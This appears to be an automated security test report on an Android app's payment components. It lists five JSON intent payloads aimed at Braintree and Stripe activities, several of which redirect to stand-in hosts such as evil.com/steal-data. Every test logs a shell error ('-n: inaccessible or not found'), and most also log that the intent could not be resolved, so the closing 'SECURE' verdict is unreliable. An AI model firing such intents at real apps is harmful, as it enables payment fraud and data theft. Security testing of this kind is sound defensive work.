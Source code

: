 
# Payment Surface Exploit Test Report

## 🚨 Executive Summary

**Test Date**: 2025-10-03 19:48:21
**Target App**: fr.mayndrive.app
**Security Status**: SECURE
**Vulnerability Confirmed**: NO

## 📊 Exploit Test Results

- **Total Exploits Tested**: 5
- **Successful Exploits**: 0
- **Success Rate**: 0.0%

## 🎯 Detailed Exploit Results


### Payment Flow Hijacking
- **Target Activity**: `com.braintreepayments.api.DropInActivity`
- **Status**: ✅ BLOCKED
- **Payload**: 
```json
{
  "action": "android.intent.action.VIEW",
  "data": "braintree://payment?amount=999999&currency=USD&description=Malicious+Payment",
  "extras": {
    "com.braintreepayments.api.EXTRA_PAYMENT_METHOD_NONCE": "fake_nonce_12345",
    "com.braintreepayments.api.EXTRA_AMOUNT": "999999",
    "com.braintreepayments.api.EXTRA_CURRENCY": "USD",
    "com.braintreepayments.api.EXTRA_DESCRIPTION": "Malicious Payment Hijack"
  }
}
```
- **Error**: /system/bin/sh: -n: inaccessible or not found
Error: Activity not started, unable to resolve Intent { act=android.intent.action.VIEW dat=braintree://payment/... flg=0x10000000 }


### Stripe 3D Secure Bypass
- **Target Activity**: `com.stripe.android.payments.StripeBrowserProxyReturnActivity`
- **Status**: ✅ BLOCKED
- **Payload**: 
```json
{
  "action": "android.intent.action.VIEW",
  "data": "https://malicious-site.com/stripe-return?success=true&payment_intent=pi_fake_12345&client_secret=pi_fake_12345_secret",
  "extras": {
    "android.intent.extra.REFERRER": "https://hooks.stripe.com",
    "com.stripe.android.payments.EXTRA_PAYMENT_INTENT": "pi_fake_12345",
    "com.stripe.android.payments.EXTRA_CLIENT_SECRET": "pi_fake_12345_secret"
  }
}
```
- **Error**: /system/bin/sh: -n: inaccessible or not found


### Financial Data Theft
- **Target Activity**: `com.stripe.android.financialconnections.lite.FinancialConnectionsSheetLiteRedirectActivity`
- **Status**: ✅ BLOCKED
- **Payload**: 
```json
{
  "action": "android.intent.action.VIEW",
  "data": "stripe://financial-connections?return_url=https://evil.com/steal-data&account_id=fake_account_12345",
  "extras": {
    "com.stripe.android.financialconnections.EXTRA_ACCOUNT_ID": "fake_account_12345",
    "com.stripe.android.financialconnections.EXTRA_RETURN_URL": "https://evil.com/steal-data",
    "com.stripe.android.financialconnections.EXTRA_CLIENT_SECRET": "fc_fake_secret_12345"
  }
}
```
- **Error**: /system/bin/sh: -n: inaccessible or not found
Error: Activity not started, unable to resolve Intent { act=android.intent.action.VIEW dat=stripe://financial-connections/... flg=0x10000000 }


### Deep-Link Payment Redirection
- **Target Activity**: `com.braintreepayments.api.BraintreeDeepLinkActivity`
- **Status**: ✅ BLOCKED
- **Payload**: 
```json
{
  "action": "android.intent.action.VIEW",
  "data": "mayndriveappddds://payment?redirect_to=https://malicious-payment.com&amount=999999&card=stolen_card_data",
  "extras": {
    "com.braintreepayments.api.EXTRA_PAYMENT_METHOD": "fake_method_12345",
    "com.braintreepayments.api.EXTRA_AMOUNT": "999999",
    "com.braintreepayments.api.EXTRA_REDIRECT_URL": "https://malicious-payment.com"
  }
}
```
- **Error**: /system/bin/sh: -n: inaccessible or not found
Error: Activity not started, unable to resolve Intent { act=android.intent.action.VIEW dat=mayndriveappddds://payment/... flg=0x10000000 }


### Stripe Link Hijacking
- **Target Activity**: `com.stripe.android.link.LinkRedirectHandlerActivity`
- **Status**: ✅ BLOCKED
- **Payload**: 
```json
{
  "action": "android.intent.action.VIEW",
  "data": "stripe://link?return_url=https://evil.com/steal-link-data&payment_method=pm_fake_12345",
  "extras": {
    "com.stripe.android.link.EXTRA_PAYMENT_METHOD": "pm_fake_12345",
    "com.stripe.android.link.EXTRA_RETURN_URL": "https://evil.com/steal-link-data",
    "com.stripe.android.link.EXTRA_CLIENT_SECRET": "link_fake_secret_12345"
  }
}
```
- **Error**: /system/bin/sh: -n: inaccessible or not found
Error: Activity not started, unable to resolve Intent { act=android.intent.action.VIEW dat=stripe://link/... flg=0x10000000 }


## ✅ Security Status: SECURE

All payment surface exploit attempts were blocked. The app appears to have proper protection mechanisms in place.
